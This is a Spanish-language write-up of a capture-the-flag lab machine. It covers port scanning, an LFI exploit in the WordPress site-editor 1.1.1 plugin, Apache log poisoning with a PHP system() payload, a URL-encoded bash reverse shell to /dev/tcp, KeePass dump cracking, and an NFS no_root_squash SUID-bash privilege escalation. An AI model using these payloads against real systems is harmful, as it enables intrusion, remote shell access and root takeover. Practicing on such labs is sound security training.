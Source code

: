 # Fase 1- Tanteo
![image](https://github.com/haw441kings/WriteUps-VulNyx/assets/136659799/0394ead3-61cd-4e53-b064-3aba80a967e0)
En esta fase inicial, realizamos un escaneo de puertos para identificar los servicios disponibles en la máquina objetivo. Utilizamos la herramienta Nmap con una serie de opciones para obtener información detallada y realizar un análisis exhaustivo de los puertos abiertos.

### Comando Nmap utilizado:

`sudo nmap -p- --open -sS -sC -sV --min-rate 5000 -vvv -n -Pn 192.168.52.139 -oN Escaneo`
### Detalles del Comando:

- `sudo nmap -p- --open -sS -sC -sV --min-rate 5000 -vvv -n -Pn 192.168.52.139 -oN Escaneo`
- `-p-`: Escaneo de todos los puertos.
- `--open`: Muestra solo puertos abiertos.
- `-sS`: Escaneo SYN para determinar el estado de los puertos.
- `-sC`: Activa detección de versiones y vulnerabilidades.
- `-sV`: Escaneo de versiones de servicios.
- `--min-rate 5000`: Velocidad mínima de escaneo.
- `-vvv`: Verbosidad muy alta para información detallada.
- `-n`: Desactiva la resolución de DNS.
- `-Pn`: Ignora la detección de hosts en línea.
- `192.168.52.139`: IP de la máquina objetivo.
- `-oN Escaneo`: Guarda resultados en archivo "Escaneo".

### Resultados
#### Puertos Abiertos:

1. **22/tcp (SSH):** OpenSSH 9.2p1
2. **80/tcp (HTTP):** Apache httpd 2.4.57
3. **111/tcp (RPCBIND):** 2-4 (RPC #100000)
5.  **37031/tcp (nlockmgr)**: 64 1-4 (RPC #100021)
6.  **37611/tcp (mountd)** :   64 1-3 (RPC #100005)
7. **41745/tcp (status)**:  64 1 (RPC #100024)
8. **51797/tcp (mountd)**:    64 1-3 (RPC #100005)
9. **55615/tcp (mountd)**:  64 1-3 (RPC #100005)

### Puerto 80
Al identificar que el puerto 80 estaba abierto durante el escaneo, se procedió a ingresar la dirección IP en el navegador. Esto llevó a acceder a la página por defecto de Apache en la máquina vulnerable, confirmando así el correcto funcionamiento del servidor web Apache en Debian. La página por defecto de Apache en Debian muestra el mensaje "Apache2 Debian Default Page".
![image](https://github.com/haw441kings/WriteUps-VulNyx/assets/136659799/696bdf1e-4c55-4e21-b3eb-c6010803b359)

# Fase 2- Exploración

#### FeroxBuster
![image](https://github.com/haw441kings/WriteUps-VulNyx/assets/136659799/803dfadc-b8db-43cc-8c36-48156fb93d10)
El resultado de feroxbuster:
```
301      GET        9l       28w      316c http://192.168.1.12/wordpress => http://192.168.1.12/wordpress/
200      GET      368l      933w    10701c http://192.168.1.12/index.html
200      GET       24l      127w    10359c http://192.168.1.12/icons/openlogo-75.png
200      GET      368l      933w    10701c http://192.168.1.12/
```
Tenemos un directorio llamado `wordpress`.

#### Wordpress
![image](https://github.com/haw441kings/WriteUps-VulNyx/assets/136659799/d0c4a86b-6967-46c4-a2d0-acc8d7c6ffac)
Al dirigirnos a la pagina, nos dice que no se puede acceder al sitio.

![image](https://github.com/haw441kings/WriteUps-VulNyx/assets/136659799/d6d83743-ecfe-4d2c-b3dc-0f984ff2636e)

Lo agregamos a nuestro /etc/hosts.

![image](https://github.com/haw441kings/WriteUps-VulNyx/assets/136659799/25e31dc3-91bd-4716-93d9-cb0223280aaf)
Y ya la tenemos...

#### Wordpress
![image](https://github.com/haw441kings/WriteUps-VulNyx/assets/136659799/208985e6-1cdd-4809-b38a-fc100a3e7c34)
La pagina usa wordpress. Vamos a realizar un escaneo.

![image](https://github.com/haw441kings/WriteUps-VulNyx/assets/136659799/7de1a307-41cf-42d5-9e51-4471605fb105)
Nos identifico el plugin `site-editor v1.1.1`.

# Fase 3- Explotación

#### 1.1.1
![image](https://github.com/haw441kings/WriteUps-VulNyx/assets/136659799/0df36338-9f92-4817-a41f-df5b303a53ad)
Buscando con Searchsploit encontramos que es vulnerable a local file inclusion.

![image](https://github.com/haw441kings/WriteUps-VulNyx/assets/136659799/2c492594-fc07-4a66-875f-ac04af73b721)
Segun el exploit basta con ejecutar esto:
```
http://<host>/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd
```
Y con eso vamos a poder leer archivos internos.

![image](https://github.com/haw441kings/WriteUps-VulNyx/assets/136659799/756a9914-ff07-4281-8545-0f11bd50fc07)
Y se logro.

#### Access.log
![image](https://github.com/haw441kings/WriteUps-VulNyx/assets/136659799/8cad4cdc-fd21-4c15-b684-adb4383c8bc5)
Ya que estamos enfrente de un servidor apache, nos fijamos si podemos leer el archivo acess.log. Y podemos.

![image](https://github.com/haw441kings/WriteUps-VulNyx/assets/136659799/e8547f37-b819-40a6-8d9c-7c8b559bda2f)
Con curl a través de USER-AGENT enviamos un whoami, y revisando el acess.log encontramos que somos el usuario www-data, tenemos ejecución remota de comandos.
Lo estamos haciendo aquí es una explotación de una **vulnerabilidad de ejecución remota de código (RCE)** aprovechando una vulnerabilidad de **Local File Inclusion (LFI)**.

Le vamos a mandar este comando:
```c
curl "http://shared.nyx/wordpress/" -H "User-Agent: <?php system(\$_GET['shell']); ?>"
```
Este comando nos proporciona una shell para poder ejecutar una reverse shell.

Le vamos a mandar el siguiente comando: 
```c
curl "http://shared.nyx/wordpress/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/var/log/apache2/access.log&shell=bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.1.2%2F4444%200%3E%261%27"
```
En este comando estoy escapando los caracteres especiales usando la codificación URL.

![image](https://github.com/haw441kings/WriteUps-VulNyx/assets/136659799/4b0e588f-88c1-44f9-9dd4-631a441703ca)
Y estamos dentro.

# Fase 4- Privilegios

#### A--A
![image](https://github.com/haw441kings/WriteUps-VulNyx/assets/136659799/fbc17cc2-9871-4dd9-9593-3ec99c93c0a7)

Indagando el la maquina encontré un directorio en /var/www/html/wordpress/backups, con un archivo llamado `cp-sharedbbdd.zip`, entonces procedí a compartírmelo a mi maquina atacante.

#### PWM
![image](https://github.com/haw441kings/WriteUps-VulNyx/assets/136659799/a4856d15-e9f7-434e-a520-90efa2633429)

`KeePass.DMP` parece ser un archivo con extensión `.DMP` asociado con KeePass, un administrador de contraseñas de código abierto. Estos archivos suelen contener información de volcado de memoria (dump), así que procedemos a usar la herramienta KeePwn, con el archivo que había en el mismo directorio. Llamado sharedbbdd.kdbx.

![image](https://github.com/haw441kings/WriteUps-VulNyx/assets/136659799/be4bf379-2f4b-4db8-804e-2247b0989894)

Y encontramos la contraseña.

![image](https://github.com/haw441kings/WriteUps-VulNyx/assets/136659799/75dcdd9a-0837-49f1-b81a-2e5277990969)

Dentro podemos ver los usuarios.

![image](https://github.com/haw441kings/WriteUps-VulNyx/assets/136659799/1f773234-35ae-4afa-be96-cf0d3ef6bcbc)

Y nos conectamos por ssh al usuario jackondor.

# Fase 4- Privilegios

#### sudo -l
Usando el recurso de [hacktricks](https://book.hacktricks.xyz/v/es/linux-hardening/privilege-escalation/nfs-no_root_squash-misconfiguration-pe) me doy cuenta de que esas carpetas ahora me servirán para escalar privilegios. Siguiendo los pasos de **hacktricks** me voy a mi equipo y como **root** creo la carpeta `/privesc` en el directorio `/tmp`.

```
❯ mkdir /tmp/privesc
```

Monto un directorio remoto ubicado en el servidor **NFS** con la dirección IP **192.168.1.145** y la ruta `/shared/tmp` en mi directorio local `/tmp/privesc`.

```
❯ mount -t nfs 192.168.1.145:/shared/tmp /tmp/privesc
```

Entro en el directorio `/tmp/privesc`, copio el binario `/bin/bash` y le doy permisos **SUID**.

```
❯ cd /tmp/privesc
❯ cp /bin/bash .
❯ chmod +s bash
```

En la máquina objetivo entro en la carpeta `/shared/tmp` y veo el binaro **bash** con permisos **SUID**.
```
cd /shared/tmp
ls
bash
ls -la
bash
```

Obtengo el root de la siguiente forma.
```
./bash -p
id
jackondor
whoami
root
```
Maquina Terminada con privilegios maximos
